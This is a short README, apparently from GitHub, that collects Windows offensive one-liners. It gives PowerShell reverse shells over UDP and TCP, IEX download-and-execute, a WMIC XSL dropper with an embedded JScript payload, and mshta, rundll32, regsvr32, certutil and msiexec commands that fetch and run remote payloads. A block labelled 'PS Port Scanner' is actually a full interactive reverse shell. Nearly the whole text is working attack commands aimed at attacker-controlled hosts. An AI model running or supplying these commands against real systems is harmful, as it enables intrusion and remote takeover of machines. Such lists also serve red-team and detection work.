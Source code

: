 This is a repository for github One Liners for Windows. You can port scan, get reverse shells with so many methods like below.

Reverse Shell Command Execution through UDP
<pre><code>powershell -nop -c "$s=New-Object System.Net.Sockets.Socket([System.Net.Sockets.AddressFamily]::InterNetwork,[System.Net.Sockets.SocketType]::Dgram,[System.Net.Sockets.ProtocolType]::UDP);$s.Connect((New-Object System.Net.IPEndPoint([system.net.IPAddress]::Parse(\"<HOSTIP>\"),53)));$s.send(([System.Text.Encoding]::ASCII).GetBytes((whoami)));"</pre></code>

Reverse Shell Command Execution through tcp
<pre><code>powershell -c "whoami | % {$w=(New-Object System.IO.StreamWriter((New-Object System.Net.Sockets.TCPClient([System.Net.IPAddress]::Parse(\"<HOSTIP>\"),80)).GetStream()));$w.WriteLine($_);$w.Flush()}"</pre></code>

Download PS Script
<pre><code>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"</pre></code>

PS Port Scanner
<pre><code>$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()</pre></code>

WMIC Dropper
<pre><code>wmic os get /format:"https://webserver/payload.xsl"</pre></code>

payload.xsl :

<pre><code><?xml version='1.0'?>
<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="placeholder" version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<<![CDATA[
			var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c echo IEX(New-Object Net.WebClient).DownloadString('http://10.2.0.5/shell.ps1') | powershell -noprofile -");
		]]>
	</ms:script>
</stylesheet></pre></code>

MSHTA Download
<pre><code>mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta</pre></code>

RUNDLL Execute from SMB
<pre><code>rundll32.exe \\192.168.1.109\vabFG\test.dll,0</pre></code>

REGSRV Download and Execute
<pre><code>regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll</pre></code>

CERTUTIL Download and Execute
<pre><code>certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe</pre></code>

MSIEXEC Download and Execute
<pre><code>msiexec /q /i http://192.168.1.109/1.msi</pre></code>

